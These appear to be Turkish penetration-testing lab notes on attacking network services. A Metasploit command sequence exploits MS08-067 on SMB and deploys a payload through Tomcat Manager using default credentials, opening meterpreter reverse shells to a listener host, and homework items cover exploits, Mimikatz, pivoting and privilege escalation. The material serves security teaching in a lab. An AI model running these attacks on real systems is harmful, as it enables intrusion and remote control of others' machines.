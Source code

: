 # Servis Saldırıları

## Komutlar

```
msfconsole
db_rebuild_cache
search ms08
use exploit/windows/smb/ms08_067_netapi
show options
set rhost 10.0.3.6
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.3.5
exploit
ls
pwd
getuid
screenshot
search tomcat
use auxiliary/scanner/http/tomcat_mgr_login
show options
set rhost 10.0.3.7
set rport 8180
use exploit/multi/http/tomcat_mgr_deploy
show options
set rhost 10.0.3.7
set rport 8180
set username tomcat
set password tomcat
set payload java/meterpreter/reverse_tcp
set lhost 10.0.3.5
```

## Ödevler

- Exploit-db, 0day.today benzeri siteleri araştırınız ve düzenli olarak takip ediniz.
- Açıklıkların paylaşıldığı diğer plaformları araştırınız.
- Nessus veya openvas aracını çalıştırınız ve lab makineleri üzerinde test ediniz.
- Mimikatz aracını araştırınız.
- Metasploit komutlarını inceleyiniz. Pivot işleminin nasıl yapıldığını araştırınız.
- Metasploit aracı dışında exploit sitelerinden seçtiğiniz bir exploiti indirip çalıştırınız.
- Reverse ile bind shell almanın farklarını öğreniniz.
- Sunucudan shell almanın farklı yollarını araştırınız.
- Linux sunuculardan alınabilecek reverse shell yollarını araştırınız.
- Linux sunuculara erişim sağlandıktan sonra yetki yükseltmenin nasıl yapılacağını araştırınız.
- Metasploitable dağıtımından normal yetkili shell aldıktan sonra root yetkisine çıkaracak şekilde exploit etmeyi deneyiniz.
